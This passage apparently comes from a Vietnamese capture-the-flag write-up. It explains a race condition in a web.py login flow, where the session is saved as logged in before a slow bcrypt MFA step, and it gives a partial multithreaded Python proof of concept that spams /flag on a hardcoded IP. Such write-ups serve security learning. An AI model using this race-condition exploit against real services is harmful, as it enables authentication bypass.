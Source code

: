 ```python
    def GET(self):
        if not session.get("loggedIn",False) or not session.get("username",None) == "admin":
            raise web.seeother('/')
        else:
            session.kill()
            return render.flag(FLAG)


class logout:
    def GET(self):
        session.kill()
        raise web.seeother('/')

application = app.wsgifunc()
if __name__ == "__main__":
    app.run()
```

Đọc `source code` ta dễ thấy có thể khai thác `race-condition (điều kiện tranh chấp)`

Trong index.POST:

- Khi login đúng, code lưu session với `loggedIn = True` và `username = 'admin'` ngay lập tức `session._save()`

- Sau đó mới kiểm tra MFA: đặt `doMFA = True`, tạo tokenMFA `(bcrypt cost 14 khá chậm)`, rồi đặt lại `loggedIn = False` và `session._save()`

Trong “khoảng thời gian” bcrypt đang chạy, session trên đĩa đã ở trạng thái `loggedIn=True`. Lúc này gửi đồng thời một request `GET /flag` (cùng cookie session) trước khi dòng đặt `loggedIn=False` chạy xong, sẽ qua check và lấy flag

```python
import requests, threading, time
from concurrent.futures import ThreadPoolExecutor, as_completed

BASE = "http://52.59.124.14:5010"
USER = "admin"
PASS = "admin"

s = requests.Session()
s.headers.update({"User-Agent": "race-poc"})

def try_flag():
    # Không theo redirect để thấy 200 ngay khi lọt
    r = s.get(f"{BASE}/flag", allow_redirects=False, timeout=5)
    if r.status_code == 200 and ("ENO{" in r.text or "FLAG" in r.text or "CTF" in r.text):
        print("[+] GOT FLAG!")
        print(r.text)
        return True
    return False

def spam_flag(stop_event):
    # Spam liên tục cho tới khi có flag
    while not stop_event.is_set():
        if try_flag():
            stop_event.set()
            break

def main():
    # Lấy cookie session ban đầu
    s.get(f"{BASE}/", timeout=5)

    stop = threading.Event()

    # 1) Mở bãi bắn /flag đa luồng
```